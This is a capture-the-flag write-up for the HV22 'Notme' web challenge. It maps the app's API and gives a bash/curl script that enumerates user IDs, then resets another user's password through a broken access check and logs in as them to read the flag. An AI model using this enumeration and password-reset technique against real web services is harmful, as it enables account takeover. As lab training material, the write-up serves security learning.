

CSS: ../meta/avenir-white.css

[← Day 09](../day09/) / [↑ TOC](../README.md) / [→ Day 11](../day11/)


# Day 10 / HV22.10 Notme


## Challenge

* Author: HaCk0
* Tags:   `#web-security`
* Level:  medium

Santa brings you another free gift! We are happy to announce a free note taking
webapp for everybody. No account name restriction, no filtering, no restrictions
and the most important thing: no bugs! Because it cannot be hacked, Santa
decided to name it Notme = Not me you can hack!

Or can you?


## Solution

The challenge gave us a note taking web service ...



A proxy was used to map out end points and API of the web app ...

```
Procedures:

# Open page
GET  /api/user/me                        >   404 JSON msg:"No loggedin User found"

# Register user
POST /api/register  username,password    >   200 JSON id(int),username,password(hash),role,updatedAt,createdAt
GET  /api/note/all                       >   200 JSON [empty list]

# Login
POST /api/login     username,password    >   200 JSON id(int),role,username,password(hash),createdAt,updatedAt
GET  /api/note/all                       >   304(Not Modified)

# Change password
POST /api/User/1    password             >   200 JSON id(int),role,username,password(hash),createdAt,updatedAt
GET  /api/note/all                       >   304(Not Modified)

# Note create
POST /api/note/new  note                 >   200 JSON id(int),note,userId(int),updatedAt,createdAt
GET  /api/note/all                       >   200 JSON [ id(int),note,userId(int),createAt,updatedAt ]

# Open note
GET  /api/note/1                         >   200 JSON id(int),note,userId(int),createdAt,updatedAt
# Accessing a note-id you don't own      >   404 JSON msg:"not your note"
# Accessing a non-existing note-id       >   404 JSON msg:"note not found"
# Throws 500 if not int or 'all'

# Update note
POST /api/note/update id(int),note,userId(int),createdAt,updatedAt
                                         >   200 JSON msg:"Updated"
GET  /api/note/all                       >   200 JSON [ id(int),note,userId,createAt,updatedAt ]

# Logout
GET  /api/user/logout                    >   200 JSON msg:"logged out"

# Query user
GET  /api/User/1                         >   200 JSON id(int),role,username,password(hash),createdAt,updatedAt
# Accessing another user id              >   ??? JSON msg:"Cannot access user"
# Value can be 'all'                     >   ??? JSON msg:"Cannot access user"
```

Based on this mapping a script was written to interact with the web app from
the command line. This gives more precise control over input data and the option
to automate procedures.

Towards the end of the script is the code for general interaction. Above that
is more specific code to search for notes by _note-id_ and to search for users
by _user-id_. The search routines simply try out every user-id between 0 and an
upper limit given as argument.

``` sh
#!/bin/bash

# curl(1) command with cookie handling
curlCmd="curl -b ./cookie -c ./cookie"
gimmiJson='Content-Type: application/json'

serverAddr="774b2d42-b4ba-4162-9b2e-0bfd5c9a3448.idocker.vuln.land"
loginUrl="https://$serverAddr/api/login"
noteUrl="https://$serverAddr/api/note"
userUrl="https://$serverAddr/api/user"

# Search notes: the secondary arg is the upper limit for note-id
if [ "$1" = "searchNote" ]; then
    upperLimitId=$2
    echo "Login ..."
    $curlCmd -X POST $loginUrl -H "$gimmiJson" -d '{"username":"leeloo","password":"multi"}'
    printf '\n\n'  # Fixes missing linefeed
    
    echo "Search Note ..."
    for i in $(seq 0 $upperLimitId); do
        $curlCmd $noteUrl/$i -H "$gimmiJson"
        printf '\n'
    done
    printf '\n'
    exit 0
fi

# Search users: the secondary arg is the upper limit for user-id
if [ "$1" = "searchUser" ]; then
    upperLimitId=$2
    echo "Login ..."
    $curlCmd -X POST $loginUrl -H "$gimmiJson" -d '{"username":"leeloo","password":"pass"}'
    printf '\n\n' 

    echo "Search other user ids ..."
    for i in $(seq 0 $upperLimitId); do
        $curlCmd -X POST $userUrl/$i -H "$gimmiJson" -d '{"id":0,"username":"leeloo","password":"pass","role":"admin"}'
        printf '\n'
    done
    printf '\n'
    exit 0
fi

# Manual POST: $1='post', $2=<path>, $3=<JSON>
if [ "$1" = "post" ]; then
    $curlCmd -L -X POST https://$serverAddr/$2 -H "$gimmiJson" -d "$3"
    printf '\n'
    exit 0
fi

# Manual GET: $1=<path>
$curlCmd -L https://$serverAddr/$1
printf '\n'
```

The following command sequence demonstrates the interaction with the web app ... 

```sh
$ ./notme.sh post api/register '{"username":"leeloo","password":"multipass"}' 
{"id":1,"username":"leeloo","password":"62c62ddb87348ea2acb002838e0ff5cf6841111b09560831add172912ed3fc2c","role":"user","updatedAt":"2022-12-14T16:20:44.888Z","createdAt":"2022-12-14T16:20:44.888Z"}

$ ./notme.sh post api/login '{"username":"leeloo","password":"multipass"}' 
{"id":1,"role":"user","username":"leeloo","password":"62c62ddb87348ea2acb002838e0ff5cf6841111b09560831add172912ed3fc2c","createdAt":"2022-12-14T16:20:44.888Z","updatedAt":"2022-12-14T16:20:44.888Z"}

$ ./notme.sh api/user/1
{"id":1,"role":"user","username":"leeloo","password":"d74ff0ee8da3b9806b18c877dbf29bbde50b5bd8e4dad7a3a725000feb82e8f1","createdAt":"2022-12-14T16:20:44.888Z","updatedAt":"2022-12-14T16:22:58.013Z"}

$ ./notme.sh api/note/all
[]

$ ./notme.sh post api/note/new '{"note":"Oh my note!"}'
{"id":1,"note":"Oh my note!","userId":1,"updatedAt":"2022-12-14T16:28:19.937Z","createdAt":"2022-12-14T16:28:19.937Z"}

$ ./notme.sh post api/note/new '{"note":"Another note!"}'
{"id":2,"note":"Another note!","userId":1,"updatedAt":"2022-12-14T16:28:50.999Z","createdAt":"2022-12-14T16:28:50.999Z"}

$ ./notme.sh api/note/all
[{"id":1,"note":"Oh my note!","userId":1,"createdAt":"2022-12-14T16:28:19.937Z","updatedAt":"2022-12-14T16:28:19.937Z"},{"id":2,"note":"Another note!","userId":1,"createdAt":"2022-12-14T16:28:50.999Z","updatedAt":"2022-12-14T16:28:50.999Z"}]

$ ./notme.sh api/note/1
{"id":1,"note":"Oh my note!","userId":1,"createdAt":"2022-12-14T16:28:19.937Z","updatedAt":"2022-12-14T16:28:19.937Z"}
```

To find the flag it was first necessary to find another user. This was done by
automating the interaction with the web app and using its response messages to
determine whether an user-id existed or not ...

```sh
$ ./notme.sh searchUser 4242
Login ...
{"id":1,"role":"user","username":"leeloo","password":"d74ff0ee8da3b9806b18c877dbf29bbde50b5bd8e4dad7a3a725000feb82e8f1","createdAt":"2022-12-14T16:20:44.888Z","updatedAt":"2022-12-14T16:22:58.013Z"}

Search other user ids ...
{"msg":"User with ID 0 not found!"}
{"id":1,"role":"user","username":"leeloo","password":"d74ff0ee8da3b9806b18c877dbf29bbde50b5bd8e4dad7a3a725000feb82e8f1","createdAt":"2022-12-14T16:20:44.888Z","updatedAt":"2022-12-14T16:22:58.013Z"}
{"msg":"User with ID 2 not found!"}
{"msg":"User with ID 3 not found!"}
{"msg":"User with ID 4 not found!"}
{"msg":"User with ID 5 not found!"}
[...]
{"msg":"User with ID 1334 not found!"}
{"msg":"User with ID 1335 not found!"}
{"msg":"User with ID 1336 not found!"}
{"id":1337,"role":"user","username":"Santa","password":"d74ff0ee8da3b9806b18c877dbf29bbde50b5bd8e4dad7a3a725000feb82e8f1","createdAt":"2022-12-14T16:18:07.844Z","updatedAt":"2022-12-14T16:24:07.567Z"}
{"msg":"User with ID 1338 not found!"}
{"msg":"User with ID 1339 not found!"}
{"msg":"User with ID 1340 not found!"}
[...]
```

Since the passwords are stored in hashed form, they cannot be read out. To
circumvent this problem the newly found user-id was used to reset that user's
password. After that it was possible to login as that user and read out his data
...

```sh
$ ./notme.sh api/user/1337
{"msg":"Cannot access user"}

$ ./notme.sh post api/user/1337 '{"password":"gimmiflag"}'
{"id":1337,"role":"user","username":"Santa","password":"e7468bd6bdddf3cee21cda080010c8ab104a1985b60f5b254bf0c2e26c49dab8","createdAt":"2022-12-14T16:18:07.844Z","updatedAt":"2022-12-14T16:36:13.330Z"}

$ ./notme.sh post api/login '{"username":"Santa","password":"gimmiflag"}'
{"id":1337,"role":"user","username":"Santa","password":"e7468bd6bdddf3cee21cda080010c8ab104a1985b60f5b254bf0c2e26c49dab8","createdAt":"2022-12-14T16:18:07.844Z","updatedAt":"2022-12-14T16:36:13.330Z"}

$ ./notme.sh api/note/all
[{"id":1337,"note":"HV22{Sql1_is_An_0Ld_Cr4Ft}","userId":1337,"createdAt":"2022-12-14T16:18:07.852Z","updatedAt":"2022-12-14T16:18:07.852Z"}]
```

Although the flag says that "SQLi is an old craft", I didn't use any SQL
injection techniques. This way of solving the challenge was probably unintended.

--------------------------------------------------------------------------------

Flag: `HV22{Sql1_is_An_0Ld_Cr4Ft}`

[← Day 09](../day09/) / [↑ TOC](../README.md) / [→ Day 11](../day11/)
